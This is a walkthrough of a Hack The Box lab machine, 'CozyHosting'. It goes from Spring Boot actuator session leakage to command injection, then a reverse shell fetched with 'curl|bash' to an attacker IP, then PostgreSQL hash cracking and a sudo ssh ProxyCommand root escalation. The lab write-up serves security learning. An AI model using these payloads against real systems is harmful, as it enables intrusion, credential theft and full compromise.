



<br />


<br />

OS -> Linux.

Difficulty -> Easy 

<br />

# Introduction:
<br />

Hello hackers! Today we’ll tackle the CozyHosting Machine, an Easy Difficulty Linux challenge. We’ll start by discovering a Spring Boot route that exposes a cookie session, allowing us to log into the web application. Inside the app, we’ll exploit a command injection vulnerability to gain system access. Once inside, we’ll find credentials to enumerate a PostgreSQL database, where we’ll uncover a crackable bcrypt Blowfish hash. Cracking it will provide a valid password to pivot to another user. Finally, we’ll exploit a SUDOERS permission for this user to escalate privileges and become root.

<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.11.230 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-26 15:24 CET
Nmap scan report for 10.10.11.230
Host is up (0.94s latency).
Not shown: 62221 closed tcp ports (reset), 3312 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.98 seconds
```

<br />

Open Ports:

- `Port 22` -> ssh

- `Port 80` -> http

<br />

# Http Enumeration: -> Port 80

<br />

Proceed to list the `website` and it redirects to `cozyhosting.htb`, so we add this domain to our `/etc/hosts`:

<br />

```bash
❯ echo '10.10.11.230 cozyhosting.htb' >> /etc/hosts
```

<br />

The website is very `static` and doesn't has `anything interesting`, only a `/login`:

<br />


<br />

Try `creds` like `admin:admin` but don't work:

<br />


<br />

The `404 error page` seems interesting:

<br />


<br />

Search about this error on Google and I discover that `Spring Boot` its being used in the `backend` of the `Server`:

<br />


<br />

# Information Leakeage:

<br />

As we know, there are `specific dictionaries` for this type of `framework`, so we proceed to fuzz with `wfuzz` using the dictionary `"spring-boot.txt"` from the [SecLists](https://github.com/danielmiessler/SecLists) of Daniel Miessler and discover the following `paths`:

<br />

```bash
❯ wfuzz -c -t 50 --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/spring-boot.txt http://cozyhosting.htb/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cozyhosting.htb/FUZZ
Total requests: 112

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000041:   200        0 L      13 W       487 Ch      "actuator/env/lang"                                                                                                    
000000044:   200        0 L      13 W       487 Ch      "actuator/env/path"                                                                                                    
000000039:   200        0 L      13 W       487 Ch      "actuator/env/home"                                                                                                    
000000029:   200        0 L      1 W        634 Ch      "actuator"                                                                                                             
000000051:   200        0 L      1 W        15 Ch       "actuator/health"                                                                                                      
000000072:   200        0 L      1 W        48 Ch       "actuator/sessions"                                                                                                    
000000038:   200        0 L      120 W      4957 Ch     "actuator/env"                                                                                                         
000000058:   200        0 L      108 W      9938 Ch     "actuator/mappings"                                                                                                    
000000032:   200        0 L      542 W      127224 Ch   "actuator/beans"                                                                                                       

Total time: 0.748504
Processed Requests: 112
Filtered Requests: 103
Requests/sec.: 149.6316
```

<br />

Of all these paths, we proceed to list `first` the one that seems `most interesting` to me, which is ``/actuator/sessions``:

<br />



<br />

It seems to be a `session cookie`, let's try to `set it` and load again the `/login` page:

<br />


<br />

Perfect!! We have access to an `Administration Panel` as the user `K.Anderson`:

<br />


<br />

# Command Injection:

<br />

At the `bottom` of the page, we see a `funcionality` that seems very interesting:

<br />


<br />

Let's `intercept` the petition with `Burp Suite` to test different things:

<br />


<br />

As we can see, there is a `error` in the response `"Could not resolve hostname testing"`.

It seems that the server is running `ssh` behind the scenes to `try to connect`, let's inject a `command` in the `username` field:

<br />



<br />

Yesss!! We are able to inject a command as the user `"app"`.

In `Bash`, there are many ways to handle `spaces` between commands. One of the most popular is by using the `${IFS}` environment variable, which defines the `Internal Field Separator` and, by default, includes `space`, tab `(\t)` and newline `(\n)`. So we try to do it with a `curl`:

<br />


<br />

See the message `"HTTP Status 400 - Bad Request"` in the response but it `works`, we have `received` the curl:

<br />

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.230 - - [26/Jan/2025 21:11:37] "GET / HTTP/1.1" 200 -
```

<br />

As we know if we are able to receive a `curl` we can gain `access` to the machine with a `Reverse Shell`.

So we proceed to create a `shell.sh` file with the following `code`:

<br />

```bash
#!/bin/bash 

bash -i >& /dev/tcp/10.10.14.17/443 0>&1

```

<br />

Now that we have the `file`, we run a `curl` again but `poiting` to the `shell.sh` and `interpreting` it with `bash`:

<br />

- Payload -> `curl${IFS}10.10.14.17|bash`

<br />



<br />

Check the `listener` and... YES!

<br />

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.230] 35018
bash: cannot set terminal process group (1061): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ id
id
uid=1001(app) gid=1001(app) groups=1001(app)
```

<br />

# Privilege Escalation: app -> josh

<br />

We are in as the user `app`, but when we try to visit `/home/josh` -> `"Permission denied"`:

<br />

```bash
app@cozyhosting:/home$ ls
josh
app@cozyhosting:/home$ cd josh
bash: cd: josh: Permission denied
```

<br />

Continue enumerating the `system` and we found in the directory `/app` a interesting `.jar file`, so we `transfer` it to our machine:

<br />

```bash
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
app@cozyhosting:/app$ python3 -m http.server 8082
Serving HTTP on 0.0.0.0 port 8082 (http://0.0.0.0:8082/) ...
```

<br />

Run `wget`:

<br />

```bash
❯ wget http://10.10.11.230:8082/cloudhosting-0.0.1.jar
--2025-01-26 21:55:32--  http://10.10.11.230:8082/cloudhosting-0.0.1.jar
Conectando con 10.10.11.230:8082... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 60259688 (57M) [application/java-archive]
Grabando a: «cloudhosting-0.0.1.jar»

cloudhosting-0.0.1.jar                        100%[=================================================================================================>]  57,47M   665KB/s    en 2m 35s  

2025-01-26 21:58:08 (380 KB/s) - «cloudhosting-0.0.1.jar» guardado [60259688/60259688]
```

<br />

Once we have the `file` in our machine, we `enumerate` the `.jar` file with `jd-gui` and found `postgresql credentials`:

<br />

```bash
jd-gui cloudhosting-0.0.1.jar & disown
```

<br />


<br />

`Log` into the `postgresql` and list the `current databases`:

<br />

```bash
app@cozyhosting:/app$ psql -U postgres -h localhost
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)
```

<br />

Then we `connect` to the `cozyhosting DB` and list the `tables`:

<br />

```bash
cozyhosting=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
```

<br />

Finally we list the most `interesting table` -> `users` and find `two` Bcrypt Blowfish `hashes`:

<br />

```bash
cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

<br />

## Cracking:

<br />

We put the `hashes` into a `file` and we are able to `crack` one of them running `hashcat` with the Bcrypt Blowfish `3200 mode`:

<br />

```bash
❯ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
...[snip]...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

<br />

Use the new `credentials` to log into the user `josh` successfully:

<br />

```bash
app@cozyhosting:/home$ su josh
Password: 
josh@cozyhosting:/home$ whoami
josh
josh@cozyhosting:/home$ cd
josh@cozyhosting:~$ cat user.txt
56d4998f4ce9e7ef4dc2890c04xxxxxx
```

<br />

# Privilege Escalation: josh -> root 

<br />

Enumerating the `SUDOERS privileges` of `josh` we see the following:

<br />

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

<br />

We can `run ssh` as `root`, this is very `dangerous` because ssh has a `option` to run `commands`, the `ProxyCommand` option.

So we `run it` trying to `attribute SUID` permission to the `/bin/bash`.

<br />

```bash
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand='chmod 4755 /bin/bash' x
kex_exchange_identification: Connection closed by remote host
Connection closed by UNKNOWN port 65535
josh@cozyhosting:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
josh@cozyhosting:~$ bash -p
bash-5.1# cd /root
bash-5.1# cat root.txt
b6515791e1cac992937d8180fbxxxxxx
```

<br />

GG!! Machine Rooted!!

I have learned a lot with this machine about new concepts like IFS that i never have touched before. 

Hope you too!! Keep hacking!!❤️❤️

<br />
